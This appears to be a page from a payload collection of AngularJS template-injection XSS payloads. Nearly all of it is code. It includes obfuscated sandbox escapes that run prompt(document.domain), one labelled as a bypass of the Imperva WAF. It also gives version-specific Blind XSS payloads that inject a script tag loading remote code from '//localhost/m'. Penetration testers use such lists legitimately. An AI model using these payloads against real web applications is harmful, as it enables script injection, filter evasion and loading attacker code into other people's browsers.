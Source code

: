 ```javascript
{{x=767015343;y=50986827;a=x.toString(36)+y.toString(36);a.sub.call.call({}[a].getOwnPropertyDescriptor(a.sub.__proto__,a).value,0,toString()[a].fromCharCode(112,114,111,109,112,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))()}}
```

```javascript
{{x=767015343;y=50986827;a=x.toString(36)+y.toString(36);a.sub.call.call({}[a].getOwnPropertyDescriptor(a.sub.__proto__,a).value,0,toString()[a].fromCodePoint(112,114,111,109,112,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))()}}
```

AngularJS bypass Waf [Imperva]

```javascript
{{x=['constr', 'uctor'];a=x.join('');b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'pr\\u{6f}mpt(d\\u{6f}cument.d\\u{6f}main)')()}}
```

### Blind XSS

1.0.1 - 1.1.5 && > 1.6.0 by Mario Heiderich (Cure53)

```javascript
{{
    constructor.constructor("var _ = document.createElement('script');
    _.src='//localhost/m';
    document.getElementsByTagName('body')[0].appendChild(_)")()
}}
```


Shorter 1.0.1 - 1.1.5 && > 1.6.0 by Lewis Ardern (Synopsys) and Gareth Heyes (PortSwigger)

```javascript
{{
    $on.constructor("var _ = document.createElement('script');
    _.src='//localhost/m';
    document.getElementsByTagName('body')[0].appendChild(_)")()
}}
```

1.2.0 - 1.2.5 by Gareth Heyes (PortSwigger)

```javascript
{{
    a="a"["constructor"].prototype;a.charAt=a.trim;
    $eval('a",eval(`var _=document\\x2ecreateElement(\'script\');
    _\\x2esrc=\'//localhost/m\';
    document\\x2ebody\\x2eappendChild(_);`),"')
}}
```

1.2.6 - 1.2.18 by Jan Horn (Cure53, now works at Google Project Zero)

```javascript
{{
    (_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'eval("
        var _ = document.createElement(\'script\');
        _.src=\'//localhost/m\';
        document.getElementsByTagName(\'body\')[0].appendChild(_)")')()
}}
```
